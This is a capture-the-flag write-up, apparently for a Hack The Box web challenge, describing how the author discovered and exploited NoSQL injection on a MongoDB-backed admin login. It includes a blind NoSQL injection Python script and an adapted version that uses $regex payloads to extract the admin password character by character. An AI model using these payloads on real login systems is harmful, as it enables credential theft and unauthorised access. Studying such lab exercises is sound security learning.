





## Investigation

The problem described a status page that showed the statuses of different parts of a project.
They gave us the code for this problem and I've included it here if you wanted to try it yourself. Check it out in Local Code.

On opening up the site you're presented with this page.



The first thing to interact with is the admin login button in the top right. Clicking on that navigates to a simple login page.



At this point it was time to look at the code. First thing to do is always search for the flag and you'll see that it's just the 
password of the admin user. 



You'll see there that they're using MongoDB to create a user with 'admin' as the username. Important to note here that standard SQL 
injection wouldn't work because they're not actually using raw SQL statements anywhere.

Going through the code further, you find the endpoint used to check the login data.



I wasa bit out of my element here. I was very familiar with SQL injection exploits but haven't done many exploits on MongoDB or other
NoSQL database programs.

It wasn't until I did more research that I found a whole category of exploits called NoSQL injection. Big thanks to this article
for giving me a primer on them (https://nullsweep.com/a-nosql-injection-primer-with-mongo/).

It was there I learned that non-sanitized form fields can be used to run some regex. Sure enough, you can login to the admin by 
putting in a regex condition that'll evaluate to true. 

The problem here wasn't logging into admin though. I needed the password of the admin user. To do so I could write a regex script that
checks if the password starts with character. If I get a positive response, then I can fix that and add another character until I get
the whole flag.

## Solution

Searching around a bit more, I found a Github repository that contains a ton of useful payloads and scripts for any kind of exploit. 
I used their python script on blind NoSQL injection but they have plenty other kinds of vulnerabilities covered. You can find their
code here (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#blind-nosql).

Their code:
```
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

I made a couple changes to fit this problem.

As we know the username is admin, we don't have to do any equality checks to figure out the username. 

We also know what a positive response will look like (the endpoint code shows that it returns a json with a logged parameter = 1) so 
we can just check for that.

Finally, we know the flag starts with "HTB{" so we can start with that and skip a few characters. The final code is:

```
import requests
import string

url = "http://localhost:1339/api/login"
headers = {"content-type": "application/json"}

flag = list("HTB{")


while True:
    for character in (string.printable):
        if character not in ["*", "+", ".", "?", "|", '"',  '\\']:
            print(f"trying {''.join(flag) + character}")

            payload = (
                '{"username": {"$eq": "admin"}, "password": {"$regex": "^%s" }}' % ("".join(flag) + character,)
            )

            r = requests.post(url, data=payload, headers=headers)

            if(r.json() == {"logged":1,"message":"User authenticated successfully!"}):
                flag.append(character)
                break
            
```

Running this script builds the flag character by character until you have the whole thing. 



This was the first time I've done a NoSQL injection. It definitely made me more wary of all the times I've used NoSQL programs
in my own projects.